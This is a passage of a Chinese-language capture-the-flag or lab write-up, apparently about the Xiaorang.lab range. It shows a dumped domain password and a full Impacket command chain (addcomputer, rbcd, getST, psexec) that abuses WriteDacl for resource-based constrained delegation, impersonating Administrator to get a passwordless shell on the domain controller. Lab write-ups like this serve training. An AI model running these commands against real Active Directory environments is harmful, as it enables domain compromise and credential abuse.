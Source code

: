 ```plain
     * Domain   : XIAORANG.LAB
     * Password : Xt61f3LBhg1
    ssp :   
    credman :
```

### 渗透 RBCD

我们需要去分析，发现用户 `chenglei` 属于 `ACL Admin组`  
注：`ACL Admins 组`对 `WIN-DC` 具有 `WriteDacl` 权限，那么可以直接写 `DCSync` / `RBCD` / `Shadow Credentials`  
`RBCD` 流程如下

> proxychains addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'  
> proxychains rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'  
> proxychains getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6  
> export KRB5CCNAME=Administrator.ccache  
> 添加 host 地址

[![](assets/1710899037-02788e6aff9aa2cdea9c0583e910cd74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205232-12a3e50c-d56f-1.png)

> 最终无密码连接  
> proxychains psexec.py Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6

[![](assets/1710899037-c6a3ed288f4847220d7218daa9fcf294.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205237-15bd0d36-d56f-1.png)
